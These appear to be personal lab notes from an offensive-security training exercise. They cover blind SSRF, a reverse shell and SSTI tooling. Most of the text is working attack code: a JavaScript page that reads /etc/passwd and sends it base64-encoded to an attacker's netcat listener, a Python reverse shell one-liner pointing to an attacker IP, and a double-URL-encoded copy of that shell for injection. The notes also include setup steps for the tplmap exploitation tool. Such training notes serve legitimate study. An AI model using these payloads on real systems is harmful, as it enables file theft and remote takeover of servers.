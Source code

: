 2. Netcat listening `sudo nc -nlvp 9090` and then saw an incoming GET. Now do again with a new HTML:
	```html
	<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
	</html>
	```
	with the same netcat listener. Data sent is then in base64 which can be decoded with an `echo "<data>" " base64 -d`
3. Getting a reverse shell. When RCE is established, have the payload:
	```bash
	export RHOST="10.";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
	```
	URL encoded:
	export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527

	This was had to be done by typing out the python, then putting through two rounds of url encoding (why??) on cyberchef in the pwnbox. Worked, and used a similar reverse shell to the idea I had!





## SSTI Example 3

Installing a python2 venv for tplmap
```bash
pip install --upgrade setuptools
pip install virtualenv
git clone https;//github.com/epinna/tplmap.git
cd ./tplmap/
virtualenv -p /path/to/python2 <name-of-venv>
source ./<name-of-venv>/bin/activate
pip install -r requirements.txt
```
Some sort of windows thingy where the command is in the param `?cmd=somet`
